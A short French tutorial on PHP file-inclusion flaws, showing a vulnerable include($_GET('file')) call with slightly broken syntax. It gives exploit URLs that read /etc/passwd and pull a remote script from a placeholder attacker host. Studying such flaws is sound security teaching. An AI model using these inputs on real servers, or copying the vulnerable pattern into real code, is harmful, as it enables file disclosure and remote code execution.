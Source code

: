 # La faille include

La fonction include() en PHP sert a exécuter du code php qui se situe dans un autre fichier. Exemple: 

```
<?php

include(bth.php)
```

Dans ce cas, c'est le code dans bth.php qui sera exécuté.

Si par contre le développeur écrit ce code :

```
<?php

include($_GET('file'));
```

Pour exploiter cette faille, on peut utiliser l'URL suivante :

>monsite.tld/index.php?file=/etc/passwd

Ici la fonction "include" va inclure le texte du fichier "/etc/passwd", et donc afficher son contenu. Il est possible de changer "/etc/passwd" en un autre fichier du serveur qui n'est normalement pas accesible, ou même par du code distant accessible sur un autre serveur.

Exemple : 

>monsite.tld/index.php?file=http://badsite.tmld/script.txt